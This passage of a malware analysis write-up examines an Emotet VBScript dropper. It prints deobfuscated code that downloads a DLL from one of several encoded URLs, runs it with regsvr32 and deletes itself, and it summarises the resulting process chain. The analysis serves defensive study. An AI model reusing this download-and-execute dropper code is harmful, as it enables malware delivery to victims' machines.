 
The first two functions are overhead/utility functions to perform encoding conversions. The chunk of code manipulating `JOCItJMMrs(7)` creates an array that contains all the Emotet download URLs. These URLs are base64 encoded and you can readily decode them using CyberChef or `base64 -d` commands in REMnux. The second half of the script contains some obfuscation in the form of string splitting and character to decimal conversion. Once we get that reduced, it'll look something like this:

```vb
Execute(
    "Dim Xml,WS,DB,FilepatH,URL:
    Xml = MSXML2.SErverXmlHtTP.3.0:
    WS = ""WsCript.SHELl:
    dB = ""adoDb.strEAM"":
    Set SblpfvbXdq = CREATEOBJECT(WS):
    tMP = sblpfvBXDQ.EXpAnDEnvironmentStRIngS(""%TmP%""):
    WIndiR = SbLPFvBxdQ.expandenviroNmEntstRINgs(""%WINdir%"") ::
    filEpaTH = Tmp & ""\VMtbfGSBow.QsJ"":::
    cAll prog:
    SUb prog:
        RANDoMIzE:
        indeX = int((6 - 0 + 1)*Rnd + 0):
        dIm MsxMl:
    Set MsXmL = crEAteoBJEct(Xml):
        diM sTreaM:
    seT STReaM = CrEATEObjEct(dB):
        MsXmL.opeN gEt, Base64DecOde(JocITjmMrS(iNDex)), fALSE:
        MsXmL.setreqUEsthEaDER USer-agEnT, kykwTJBDAyBKqLonrjjG:
        MsXMl.senD:
        wIth stReAm:
            .tyPe = 1:
            .open:
        .WRite MsXMl.resPONseboDy:
        .saVetofilE FilEPath, 2:
        end wiTh:
    EnD SUB")::
SBLpFvbXDQ.Exec(windir & "\System32\regsvR32.ExE " & tmp & Base64Decode("XHZtVGJmR1NCT1cucXNq")):
' \vmTbfGSBOW.qsj
FSO.GetFile(WScript.ScriptFullName).delete
```
{: file='VEuIqlISMa.vbs'}

This chunk of code takes VBScript pass into `Execute()` as a string and executes it. That code randomly picks an element of the `JocITjmMrS(7)` array, attempts to download content (presumably a DLL) from that URL to `vmTbfGSBOW.qsj`, and executes the downloaded content with `regsvr32.exe`. Afterward, the script deletes itself from disk. One very odd detail in this script is that the adversary chooses to specify a User-Agent string of `kykwTJBDAyBKqLonrjjG`. This may be something designed to gate access or keep track of statistics since UA strings can be arbitrary and optional.

To summarize so far:

- `explorer.exe` spawns `cmd.exe` with the `findstr` command to write the VBS
- `cmd.exe` spawns `wscript.exe VEuIqlISMa.vbs`
- `wscript.exe` contacts one of 7 URLs to download a DLL
- `wscript.exe` writes the DLL to `vmTbfGSBOW.qsj`
- `wscript.exe` executes `regsvr32.exe vmTbfGSBOW.qsj`
- `wscript.exe` removes `VEuIqlISMa.vbs` from disk
